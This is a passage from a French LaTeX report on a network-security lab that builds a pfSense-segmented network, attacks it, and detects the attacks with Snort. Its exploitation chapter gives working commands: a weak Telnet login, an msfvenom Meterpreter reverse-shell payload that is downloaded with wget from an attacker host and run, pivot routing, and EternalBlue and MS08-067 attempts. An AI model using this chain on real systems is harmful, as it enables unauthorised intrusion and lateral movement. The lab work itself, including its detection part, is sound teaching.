		\caption*{\textbf{Référence :} screenshots/firewall-logs.png}
	}
	\caption{Journaux du Pare-Feu pfSense}
	\label{fig:firewall-logs}
\end{figure}

\textbf{Note :} Les vulnérabilités exposées ici seront exploitées au Chapitre~\ref{chap:exploitation}.

% ==============================================================================
% CHAPITRE 2 : RECONNAISSANCE ACTIVE
% ==============================================================================
\chapter{Reconnaissance Active}
\label{chap:reconnaissance}

\section{Configuration du Service Telnet (DMZ)}

\subsection{Installation}

\begin{lstlisting}[caption=Installation et Activation du Service Telnet]
	$ sudo apt install telnetd
	# Activation dans inetd.conf
	$ sudo sed -i 's/#<off># telnet/telnet/' /etc/inetd.conf
	$ sudo systemctl restart inetutils-inetd
\end{lstlisting}

\begin{lstlisting}[caption=Vérification du service sur le port 23]
	$ sudo ss -tlnp | grep :23
	LISTEN 0  10  0.0.0.0:23  0.0.0.0:*  users:(("inetutils-inetd",pid=1062,fd=4))
\end{lstlisting}

\subsection{Utilisateur de Test}

\begin{itemize}
	\item \textbf{Nom :} \texttt{telnetuser} \quad \textbf{Mot de passe :} \texttt{test123} (⚠️ faible, lab uniquement)
	\item \textbf{Sudo :} ALL (configuration vulnérable intentionnelle)
\end{itemize}

\section{Configuration NAT Port Forwarding pour Telnet}

La règle NAT pour exposer Telnet au WAN :

\begin{table}[H]
	\centering
	\renewcommand{\arraystretch}{1.5}
	\begin{tabular}{>{\bfseries}p{4.5cm} p{9cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Paramètre}} &
		\textcolor{tableheadfg}{\textbf{Valeur}} \\
		\hline
		\rowcolor{tablerowalt}
		Interface & WAN \\
		Protocol & TCP \\
		\rowcolor{tablerowalt}
		Destination & WAN address (192.168.100.6) \\
		Destination port range & Telnet (23) \\
		\rowcolor{tablerowalt}
		Redirect target IP & 192.168.10.100 (Ubuntu DMZ) \\
		Redirect target port & Telnet (23) \\
		\rowcolor{tablerowalt}
		Filter rule association & Add associated filter rule \\
		\hline
	\end{tabular}
	\caption{Configuration de la Règle NAT Port Forwarding (Telnet)}
\end{table}

\begin{figure}[H]
	\centering
	\IfFileExists{screenshots/nat-rules-2.png}{
		
\includegraphics[width=0.9\textwidth]{screenshots/nat-rules-2.png}
	}{
		\includegraphics[width=0.9\textwidth]{example-image}
		\caption*{\textbf{Référence :} screenshots/nat-rules-2.png}
	}
	\caption{Règles NAT Port Forward (TP2)}
	\label{fig:nat-rules-tp2}
\end{figure}

\section{Validation de la Connexion Telnet}

\begin{lstlisting}[caption=Test Telnet depuis CentOS (machine admin)]
	[yasser-bella@CentOS-7 ~]$ telnet 192.168.100.6 23
	Connected to 192.168.100.6.
	DMZ-WebServer login: telnetuser
	Password:
	telnetuser@DMZ-WebServer:~$ whoami
	telnetuser
\end{lstlisting}

\begin{lstlisting}[caption=Test depuis Parrot Security (busybox)]
	~ ➜ busybox telnet 192.168.100.6 23
	Connected to 192.168.100.6
	DMZ-WebServer login: telnetuser
	Password:
	telnetuser@DMZ-WebServer:~$ whoami
	telnetuser
\end{lstlisting}

\section{Tests Nmap (Reconnaissance Active)}

\subsection{États de Port dans Nmap}

\begin{table}[H]
	\centering
	\renewcommand{\arraystretch}{1.6}
	\begin{tabular}{>{\bfseries}p{3cm} p{11cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{État}} &
		\textcolor{tableheadfg}{\textbf{Signification}} \\
		\hline
		\rowcolor{tablerowalt}
		open & Service actif, répond avec SYN-ACK. Point d'entrée potentiel. \\
		closed & Pas de service, répond avec RST. Pare-feu autorise mais aucun service actif. \\
		\rowcolor{tablerowalt}
		filtered & Pare-feu bloque le trafic. Aucune réponse reçue. Protection active. \\
		\hline
	\end{tabular}
	\caption{États de Port Nmap et Interprétations}
\end{table}

\subsection{Test 1 : Scan Port 80 (HTTP)}

\begin{lstlisting}[caption=Scan Nmap du port HTTP]
	~ ➜ nmap -p 80 192.168.100.6
	PORT   STATE SERVICE
	80/tcp open  http
	Nmap done: 1 IP address (1 host up) scanned in 0.21 seconds
\end{lstlisting}

\subsection{Test 2 : Scan Port 23 (Telnet)}

\begin{lstlisting}[caption=Scan Nmap du port Telnet]
	~ ➜ nmap -p 23 192.168.100.6
	PORT   STATE SERVICE
	23/tcp open  telnet
	Nmap done: 1 IP address (1 host up) scanned in 0.06 seconds
\end{lstlisting}

\subsection{Test 3 : Scan Port 22 (SSH - Filtré)}

\begin{lstlisting}[caption=Scan Nmap du port SSH (non forwardé)]
	~ ➜ nmap -p 22 192.168.100.6
	PORT   STATE    SERVICE
	22/tcp filtered ssh
	Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
\end{lstlisting}

\subsection{Test 4 : Scan Complet (Top 1000 Ports)}

\begin{lstlisting}[caption=Scan Nmap des 1000 ports les plus courants]
	~ ➜ nmap 192.168.100.6
	Not shown: 996 filtered tcp ports (no-response)
	PORT    STATE  SERVICE
	23/tcp  open   telnet
	80/tcp  open   http
	139/tcp closed netbios-ssn
	445/tcp closed microsoft-ds
	Nmap done: 1 IP address (1 host up) scanned in 4.33 seconds
\end{lstlisting}

\section{Analyse de la Surface d'Attaque}

\begin{itemize}
	\item \textbf{Total de ports scannés :} 1000
	\item \textbf{Ports ouverts :} 2 (23, 80)
	\item \textbf{Ports fermés :} 2 (139, 445)
	\item \textbf{Ports filtrés :} 996
\end{itemize}

\textbf{Calcul de la Surface d'Attaque :}
\[
\text{Surface d'Attaque (Ports Ouverts)} = \frac{2}{1000} = 0.2\%
\]
\[
\text{Surface Accessible (Open + Closed)} = \frac{4}{1000} = 0.4\%
\]

\textbf{Conclusion :} Seuls 0.2\% des ports sont directement exploitables. La configuration NAT/pfSense réduit la surface d'attaque à un minimum contrôlé. Ces vulnérabilités découvertes seront exploitées au Chapitre~\ref{chap:exploitation}.

% ==============================================================================
% CHAPITRE 3 : EXPLOITATION & POST-EXPLOITATION
% ==============================================================================
\chapter{Exploitation et Post-Exploitation}
\label{chap:exploitation}

\section{Phase 1 : Compromission Initiale via Telnet}

\subsection{Connexion Initiale}

\begin{lstlisting}[caption=Accès Telnet Initial (Compromission)]
	$ busybox telnet 192.168.100.6 23
	Connected to 192.168.100.6
	Ubuntu 25.04 LTS
	DMZ-WebServer login: telnetuser
	Password: test123
	Welcome to Ubuntu 25.04 LTS (GNU/Linux 6.14.0-37-generic x86_64)
	telnetuser@DMZ-WebServer:~$
\end{lstlisting}

✅ \textbf{Résultat :} Compromission réussie avec shell interactif.

\subsection{Énumération Initiale}

\begin{lstlisting}[caption=Collecte d'Informations du Système Cible]
	$ whoami
	telnetuser
	$ uname -a
	Linux DMZ-WebServer 6.14.0-37-generic #37-Ubuntu x86_64 GNU/Linux
	$ ip addr show ens33
	inet 192.168.10.100/24
	$ sudo -l
	User telnetuser may run the following commands:
	(ALL : ALL) ALL
\end{lstlisting}

\textbf{Découverte Critique :} L'utilisateur dispose de privilèges sudo complets --- élévation vers root immédiate.

\subsection{Validation de la Chaîne TP}

\begin{table}[H]
	\centering
	\small
	\renewcommand{\arraystretch}{1.4}
	\begin{tabular}{p{2.5cm} p{5cm} p{5cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Phase}} &
		\textcolor{tableheadfg}{\textbf{Action}} &
		\textcolor{tableheadfg}{\textbf{Résultat}} \\
		\hline
		\rowcolor{tablerowalt}
		Infrastructure & Déploiement défensif & Segmentation réseau établie \\
		Reconnaissance & Configuration Telnet + Nmap & Vulnérabilité identifiée (CVSS 9.8) \\
		\rowcolor{tablerowalt}
		Exploitation & Utilisation de la vulnérabilité & \textcolor{accent}{\textbf{Compromission confirmée}} \\
		\hline
	\end{tabular}
	\caption{Validation de la Progression Pédagogique}
\end{table}

\section{Phase 2 : Post-Exploitation et Persistence (Meterpreter)}

\subsection{Génération du Payload}

\begin{lstlisting}[caption=Génération avec msfvenom]
	$ msfvenom -p linux/x64/meterpreter/reverse_tcp \
	LHOST=192.168.100.150 \
	LPORT=4445 \
	-f elf \
	-o meterpreter.elf
	Payload size: 130 bytes
	Final size of elf file: 250 bytes
	Saved as: meterpreter.elf
\end{lstlisting}

\subsection{Hébergement et Transfert}

\begin{lstlisting}[caption=Serveur HTTP Python + Téléchargement sur cible]
	# Sur Parrot (attaquant) :
	$ python3 -m http.server 8000

	# Sur Ubuntu DMZ (via Telnet shell) :
	$ cd /tmp && wget http://192.168.100.150:8000/meterpreter.elf
	$ chmod +x meterpreter.elf && ./meterpreter.elf &
	[1] 4779
\end{lstlisting}

\subsection{Handler Metasploit}

\begin{lstlisting}[caption=Configuration du Multi Handler]
	$ msfconsole -q
	msf > use exploit/multi/handler
	msf exploit(multi/handler) >> set PAYLOAD linux/x64/meterpreter/reverse_tcp
	msf exploit(multi/handler) >> set LHOST 192.168.100.150
	msf exploit(multi/handler) >> set LPORT 4445
	msf exploit(multi/handler) >> exploit
	[*] Started reverse TCP handler on 192.168.100.150:4445
	[*] Meterpreter session 1 opened (192.168.100.150:4445 -> 192.168.100.6:39218)
	(Meterpreter 1)(/tmp) >
\end{lstlisting}

\subsection{Sessions Multiples (Persistence)}

\begin{lstlisting}[caption=Sessions Meterpreter Actives]
	msf exploit(multi/handler) >> sessions -l
	Active sessions
	Id  Type                   Information                  Connection
	2   meterpreter x64/linux  telnetuser @ 192.168.10.100  150:4445 -> 6:13089
	3   meterpreter x64/linux  telnetuser @ 192.168.10.100  150:4445 -> 6:39722
\end{lstlisting}

\section{Phase 3 : Configuration du Pivot Réseau}

\subsection{Contexte}

Depuis Parrot Security (WAN), le réseau LAN (192.168.20.0/24) est inaccessible directement. Le serveur DMZ compromis est utilisé comme \textbf{point de pivot}.

\subsection{Test de Connectivité via Pivot}

\begin{lstlisting}[caption=Test Ping depuis Meterpreter vers LAN]
	(Meterpreter 1)(/tmp) > shell
	$ ping -c 3 192.168.20.50
	64 bytes from 192.168.20.50: icmp_seq=1 ttl=128 time=0.512 ms
	3 packets transmitted, 3 received, 0% packet loss
\end{lstlisting}

\subsection{Configuration de la Route Metasploit}

\begin{lstlisting}[caption=Configuration du Routage via Meterpreter]
	msf exploit(multi/handler) >> route add 192.168.20.0/24 2
	[*] Route added

	msf exploit(multi/handler) >> route print
	Subnet             Netmask            Gateway
	192.168.20.0       255.255.255.0      Session 2
\end{lstlisting}

\section{Phase 4 : Reconnaissance Latérale (Windows XP)}

\subsection{Scan de Ports via le Pivot}

\begin{lstlisting}[caption=Port Scan via Metasploit Auxiliary]
	msf >> use auxiliary/scanner/portscan/tcp
	msf auxiliary(scanner/portscan/tcp) >> set RHOSTS 192.168.20.50
	msf auxiliary(scanner/portscan/tcp) >> set PORTS 135,139,445,3389
	msf auxiliary(scanner/portscan/tcp) >> run
	[+] 192.168.20.50  - 192.168.20.50:445 - TCP OPEN
\end{lstlisting}

\subsection{Identification de l'OS Cible}

\begin{lstlisting}[caption=Détection Version SMB]
	msf >> use auxiliary/scanner/smb/smb_version
	msf auxiliary(scanner/smb/smb_version) >> set RHOSTS 192.168.20.50
	msf auxiliary(scanner/smb/smb_version) >> run
	[+] 192.168.20.50:445  - Host is running Windows XP SP3 (language:English)
\end{lstlisting}

\subsection{Test MS17-010 (EternalBlue) et MS08-067}

\begin{lstlisting}[caption=Test MS17-010]
	msf >> use exploit/windows/smb/ms17_010_eternalblue
	msf exploit >> set RHOSTS 192.168.20.50
	msf exploit >> exploit
	[-] 192.168.20.50:445 - The target is not vulnerable.
\end{lstlisting}

\begin{lstlisting}[caption=Tentative MS08-067 NetAPI]
	msf >> use exploit/windows/smb/ms08_067_netapi
	msf exploit >> set RHOSTS 192.168.20.50
	msf exploit >> exploit
	[*] 192.168.20.50:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
	[*] Exploit completed, but no session was created.
\end{lstlisting}

❌ \textbf{Échec :} Windows XP est patché (KB958644). La segmentation + patches ont résisté à l'exploitation directe.

\subsection{Port Forwarding RDP via Meterpreter}

\begin{lstlisting}[caption=Création du Tunnel RDP]
	(Meterpreter 2)(/tmp) > portfwd add -l 3389 -p 3389 -r 192.168.20.50
	[*] Forward TCP relay created: (local):3389 -> (remote) 192.168.20.50:3389

	# Validation
	$ nc -zv localhost 3389
	Connection to localhost (127.0.0.1) 3389 port [tcp/ms-wbt-server] succeeded!
\end{lstlisting}

\section{Phase 5 : Collecte d'Intelligence}

\begin{lstlisting}[caption=Module post/linux/gather/enum\_system]
	msf >> use post/linux/gather/enum_system
	msf post >> set SESSION 2
	msf post >> run
	[+]     Ubuntu 25.04
	[+]     Linux DMZ-WebServer 6.14.0-37-generic x86_64 GNU/Linux
	[+]     Module running as "telnetuser" user
\end{lstlisting}

\section{Mapping MITRE ATT\&CK}

\begin{table}[H]
	\centering
	\small
	\renewcommand{\arraystretch}{1.4}
	\begin{tabular}{p{3cm} p{5cm} p{5.5cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Tactique}} &
		\textcolor{tableheadfg}{\textbf{Technique}} &
		\textcolor{tableheadfg}{\textbf{Mise en Œuvre}} \\
		\hline
		\rowcolor{tablerowalt}
		Initial Access & T1078 Valid Accounts & Telnet telnetuser:test123 \\
		Execution & T1059 Command \& Scripting & Shell via Telnet, wget payload \\
		\rowcolor{tablerowalt}
		Persistence & T1543 Sessions multiples & Meterpreter sessions 2 et 3 \\
		Discovery & T1046 Network Service Scan & Nmap, Metasploit portscan \\
		\rowcolor{tablerowalt}
		Lateral Movement & T1021.002 SMB/Windows & Scan SMB via pivot, portfwd RDP \\
		Collection & T1005 Data from Local System & post/linux/gather/enum\_system \\
		\hline
	\end{tabular}
	\caption{Mapping MITRE ATT\&CK --- Phases d'Attaque}
	\label{tab:mitre}
\end{table}

\textbf{Note :} Les alertes générées par ces attaques sont analysées au Chapitre~\ref{chap:snort}.

% ==============================================================================
% CHAPITRE 4 : DÉTECTION ACTIVE AVEC SNORT IDS
% ==============================================================================
\chapter{Détection Active avec Snort IDS}
\label{chap:snort}

\section{Fondements Théoriques : Pare-feu vs IDS/IPS}

\begin{table}[H]
	\centering
	\renewcommand{\arraystretch}{1.5}
	\begin{tabular}{p{3cm} p{5.3cm} p{5.3cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Technologie}} &
		\textcolor{tableheadfg}{\textbf{Principe}} &
		\textcolor{tableheadfg}{\textbf{Limites}} \\
		\hline
		\rowcolor{tablerowalt}
		Pare-feu & Filtrage IP/ports/protocoles (L3/L4) & Peu de visibilité sur le contenu, ne détecte pas une attaque dans un flux autorisé \\
		IDS & DPI + signatures, alerte sans blocage & Dépend des signatures, bruit (faux positifs), pas d'action directe \\
		\rowcolor{tablerowalt}
		IPS & DPI + signatures + blocage actif & Risque d'interruption de services légitimes si mauvais tuning \\
		\hline
	\end{tabular}
	\caption{Comparaison Pare-feu vs IDS vs IPS}
	\label{tab:fw-ids-ips}
\end{table}

\section{Déploiement Snort sur pfSense}

\subsection{Installation}

\begin{enumerate}[leftmargin=*]
	\item Accès à l'interface pfSense : \url{https://192.168.10.1}
	\item Menu : \textbf{System > Package Manager > Available Packages}
	\item Recherche et installation du paquet \textbf{Snort}.
\end{enumerate}

\subsection{Sources de Règles Activées}

Dans \textbf{Services > Snort > Global Settings} :
\begin{itemize}
	\item \textbf{Snort GPLv2 Community Rules} (Talos certified subset)
	\item \textbf{Emerging Threats Open (ET Open)}
\end{itemize}

\begin{figure}[H]
	\centering
	\IfFileExists{screenshots/snort-global-settings.png}{
		
\includegraphics[width=0.98\textwidth]{screenshots/snort-global-settings.png}
	}{
		\includegraphics[width=0.9\textwidth]{example-image}
		\caption*{\textbf{Référence :} screenshots/snort-global-settings.png}
	}
	\caption{Snort : activation des sources de règles (GPLv2 + ET Open)}
	\label{fig:snort-global-settings}
\end{figure}

\subsection{Activation sur Interfaces}

Snort a été activé sur trois interfaces : \textbf{WAN} (attaques externes), \textbf{DMZ} (hôte pivot), \textbf{LAN} (mouvement latéral).

\begin{tcolorbox}[colback=secondary!5!white, colframe=secondary, title=\textbf{Choix de conception : IDS Mode}]
	Snort configuré en \textbf{mode IDS} (Blocking Mode désactivé) pour permettre la reproduction des attaques sans interruption et collecter des alertes exploitables.
\end{tcolorbox}

\begin{figure}[H]
	\centering
	\IfFileExists{screenshots/snort-interfaces.png}{
		
\includegraphics[width=0.98\textwidth]{screenshots/snort-interfaces.png}
	}{
		\includegraphics[width=0.9\textwidth]{example-image}
		\caption*{\textbf{Référence :} screenshots/snort-interfaces.png}
	}
	\caption{Snort Interfaces : WAN, DMZ et LAN en exécution (IDS mode)}
	\label{fig:snort-interfaces}
\end{figure}

\section{Validation : Détection WAN vs Mouvement Latéral LAN}

\subsection{Détection sur WAN : Transfert de Binaire ELF}

\begin{lstlisting}[style=logstyle,caption={Alerte WAN : téléchargement ELF (ET POLICY)}]
	Date/Time : 2026-03-14 22:21:02
	Interface : WAN (em0)
	Priority  : 1
	Proto     : TCP
	Class     : Potential Corporate Privacy Violation
	Source    : 192.168.100.150:4445
	Dest      : 192.168.100.6:19767
	GID:SID   : 1:2000418
	Message   : ET POLICY Executable and linking format (ELF) file download
\end{lstlisting}

\textbf{Interprétation :} Snort a identifié le payload \texttt{meterpreter.elf} transféré lors du TP3 (Phase 2).

\begin{figure}[H]
	\centering
	\IfFileExists{screenshots/wan-alerts.png}{
		
\includegraphics[width=0.98\textwidth]{screenshots/wan-alerts.png}
	}{
		\includegraphics[width=0.9\textwidth]{example-image}
		\caption*{\textbf{Référence :} screenshots/wan-alerts.png}
	}
	\caption{Snort Alerts (WAN) : alertes déclenchées depuis 192.168.100.150}
	\label{fig:snort-alerts-wan}
\end{figure}

\subsection{Détection sur LAN : Mouvement Latéral EternalBlue}

\begin{lstlisting}[style=logstyle,caption={Alerte LAN : sonde MS17-010 via pivot DMZ}]
	Date/Time : 2026-03-04 15:28:14
	Interface : LAN (em1)
	Priority  : 1
	Proto     : TCP
	Class     : A Network Trojan was Detected
	Source    : 192.168.10.100:44152
	Dest      : 192.168.20.50:445
	GID:SID   : 1:2025992
	Message   : ET EXPLOIT Possible ETERNALBLUE Probe MS17-010 (Generic Flags)
\end{lstlisting}

\textbf{Interprétation :}
\begin{itemize}
	\item Source \textbf{192.168.10.100} = Ubuntu DMZ compromis (pivot)
	\item Destination \textbf{192.168.20.50:445} = Windows XP dans le LAN
	\item Snort identifie une sonde EternalBlue (MS17-010) que le pare-feu seul ne caractériserait pas
\end{itemize}

\begin{figure}[H]
	\centering
	\IfFileExists{screenshots/lan-alerts.png}{
